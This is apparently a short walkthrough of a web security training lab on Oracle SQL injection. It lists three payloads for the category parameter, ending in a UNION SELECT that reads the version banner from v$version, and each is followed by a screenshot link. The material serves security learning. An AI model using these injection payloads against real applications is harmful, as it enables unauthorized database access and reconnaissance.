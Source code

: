 Title: SQL injection attack, querying the database type and version on Oracle
Level: Practitioner
Desc:  This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.
To solve the lab, display the database version string. 

`category=Lifestyle' or 1=1--`
![image](https://github.com/user-attachments/assets/b152d947-178b-4e8a-b223-cafb5ad8f30a)

`category=Lifestyle' or 1=1 UNION SELECT NULL,NULL from DUAL--`
![image](https://github.com/user-attachments/assets/7c89574a-e769-413e-b9a8-fb4171210f37)

`category=Lifestyle' or 1=1 UNION SELECT '1',banner from v$version--`
![image](https://github.com/user-attachments/assets/5b47bd19-faf1-49dc-b5e3-a9d5cf3d4d3f)
